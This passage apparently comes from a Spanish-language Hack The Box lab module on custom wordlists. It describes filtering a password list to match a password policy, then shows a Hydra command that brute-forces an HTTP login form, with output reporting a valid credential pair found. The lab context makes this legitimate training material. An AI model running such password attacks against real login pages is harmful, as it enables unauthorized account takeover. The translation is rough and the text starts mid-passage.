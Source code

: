 Este comando se filtra de manera eficiente`jane.txt`Para que coincida con la política proporcionada, desde ~ 46000 contraseñas hasta un posible ~ 7900. Primero garantiza una longitud mínima de 6 caracteres, luego verifica al menos una letra mayúscula, una letra minúscula, un número y finalmente, al menos dos caracteres especiales del conjunto especificado. Los resultados filtrados se almacenan en`jane-filtered.txt`.

Use las dos listas generadas en Hydra contra el objetivo para hacer marco bruto en el formulario de inicio de sesión. Recuerde cambiar la información de destino para su instancia.

  Custom Wordlists

```shell-session
xnoxos@htb[/htb]$ hydra -L usernames.txt -P jane-filtered.txt IP -s PORT -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these * ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-05 11:47:14
[DATA] max 16 tasks per 1 server, overall 16 tasks, 655060 login tries (l:14/p:46790), ~40942 tries per task
[DATA] attacking http-post-form://IP:PORT/:username=^USER^&password=^PASS^:Invalid credentials
[PORT][http-post-form] host: IP   login: ...   password: ...
[STATUS] attack finished for IP (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-05 11:47:18
```

Una vez que Hydra haya completado el ataque, inicie sesión en el sitio web utilizando las credenciales descubiertas y recupere la bandera.